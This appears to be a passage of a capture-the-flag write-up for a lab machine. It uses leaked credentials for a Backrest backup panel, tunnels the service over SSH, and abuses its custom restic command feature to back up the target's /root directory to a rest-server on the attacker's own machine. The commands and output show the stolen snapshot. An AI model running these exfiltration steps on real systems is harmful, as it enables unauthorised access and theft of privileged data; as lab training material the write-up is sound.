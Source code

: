 Test login:

```
curl -i -u backrest_root:'!@#$%^' http://127.0.0.1:9898/
```

Tunnel the service:

```
ssh gael@10.129.188.125 -L 9898:127.0.0.1:9898
```

Open browser at `http://127.0.0.1:9898`

We login with `backrest_root:!@#$%^`

From GUI, we create a repo and use the feature to run custom `restic` commands.

Now, we install and run a local `rest-server` in our kali machine:

```
sudo apt install restic -y
mkdir -p ~/tools/rest-server
wget https://github.com/restic/rest-server/releases/download/v0.14.0/rest-server-0.14.0.tar.gz
go build -o rest-server ./cmd/rest-server
mkdir -p /tmp/restic-data
./rest-server --path /tmp/restic-data --listen :12345 --no-auth
```

From the app GUI at `http://127.0.0.1:9898`, in the created repo there is an option for running commands. We enter:

```
-r rest:http://10.10.14.112:12345/myrepo init
-r rest:http://10.10.14.112:12345/myrepo backup /root
```

Now from kali, we observe in our rest-server the we are receiving this:

```
Creating repository directories in /tmp/restic-data/myrepo
```

From  Kali, we can check now the existing snapshots in the created repo:

```
restic -r /tmp/restic-data/myrepo snapshots
```

Output:

```
enter password for repository: 
repository c4d8f1d0 opened (version 2, compression level auto)
created new cache in /root/.cache/restic
ID        Time                 Host        Tags        Paths  Size
-----------------------------------------------------------------------
7603045e  2025-07-13 23:51:32  artificial              /root  4.299 MiB
-----------------------------------------------------------------------
1 snapshots

```
